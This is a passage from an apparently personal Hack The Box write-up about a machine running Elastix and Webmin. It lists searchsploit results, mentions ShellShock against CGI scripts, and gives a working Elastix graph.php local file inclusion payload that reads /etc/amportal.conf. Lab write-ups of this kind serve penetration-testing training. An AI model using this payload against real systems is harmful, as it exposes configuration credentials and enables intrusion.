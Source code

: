 ```
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)                                                                | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)                                                          | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)                                                                      | linux/webapps/50809.py
Webmin 1.x - HTML Email Command Execution                                                                                 | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                              | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                              | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                             | linux/webapps/47330.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

And... I got back a lot of vulnerabilities.

One thing to notice is that several of the vulnerabilities mention `cgi scripts`, which if you've read my [HTB-Shocker]() writeup, you should know that the first thing you should try is the `ShellShock` vulnerability.

This vulnerability affected web servers utilizing CGI (Common Gateway Interface), which is a system for generating dynamic web content. If it turns out to be not vulnerable to `ShellShock`, searchsploit returned a bunch of other exploits we can try.

Based on the information I found from enumerating this box, I think this box might have more than one solution. So I decided to figure out all the possible solutions to this box.

## Solution 1
Since we saw that the `Elastix` was vulnerable to LFI, I decided to go with it first, as exploiting a web-page using `LFI` is always easier than carrying out other attacks

```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl
```
I used the above mentioned module, and looking at the module, i found out the payload they used.

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

here, `/etc/amportal.conf` is the system file in the Elastix software.

So I visited the web-page, entered the payload, executed it and this is what I get.

![bp-5](https://user-images.githubusercontent.com/87711310/211778610-ef428b7f-03e9-4c5f-9cbc-6ddcf678f8f5.png)

It was unreadable so I tried viewing the source-code of the page hoping that it might have the code with proper indentation and formatting and here's what i got.
